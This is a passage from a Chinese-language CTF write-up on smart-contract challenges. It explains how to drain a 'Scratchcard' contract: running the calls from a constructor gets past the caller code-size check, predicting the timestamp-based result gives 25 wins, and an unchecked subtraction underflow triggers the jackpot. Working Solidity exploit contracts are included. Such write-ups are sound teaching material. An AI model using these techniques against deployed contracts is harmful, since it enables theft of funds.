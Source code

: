 首先这里有一个library 定义了一个 规则，他要求我们的调用者不能是一个 存在一个 size&gt;0 的合约，那我们想操作的话 只能在constructor 进行所有的操作。

那我们就还是需要提前计算 我们部署的合约地址，然后在第三方合约的constructor 函数中部署好所有的攻击操作。

才能成功攻击合约。

然后我们来查看一下攻击链，目标是能够调用 collectMega 这个函数 首先是需要 check过，check过的话是需要win 25次。

然后需要 2cost-amount &gt;0 这里没有使用safemath 库，可以下溢出。 那么就是cost2-=amount 下溢出 还是满足大于0，所以最后直接调用转3.5ether即可。

建议一次转完 否则会像我这样<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cf898e20d532b8a6.png)

用两个合约实现

```
contract exp`{`

    address target=challenge address;
    Scratchcard A=Scratchcard(target);
    uint time;
    constructor()payable`{`
      uint val = (now%10**8)*10**10;
        for (uint i=0; i&lt;25; i++) `{`
            A.play.value(val)();
        `}`
        A.collectMegaJackpot(0.02896594 ether);
        selfdestruct(your address);
    `}`
    function() payable`{``}`

`}`
contract hack
`{`
    exp public nice;
    constructor() payable`{``}`
    function chuang()public payable`{`
        nice=(new exp).value(1 ether)();
    `}`
`}`
```

先部署hack 然后预测create 的地址，之后调用ctf_challenge地址给予调用权限，最后再 chuang()即可

[![](https://p5.ssl.qhimg.com/t018fb42cbd99f6a081.png)](https://p5.ssl.qhimg.com/t018fb42cbd99f6a081.png)

总结：

[![](https://p5.ssl.qhimg.com/t0146efed3c169776f6.png)](https://p5.ssl.qhimg.com/t0146efed3c169776f6.png)

2天刷完了13题还是比较有成就感的。大家都可以慢慢来做一做

通过以上这些题目应该可以初步的对智能合约尤其是ctf中的题目有一个初步的了解。美中不足是现在的题目大多不会给出源码。所以我们可以自行利用各种decompile网站或者软件分析。
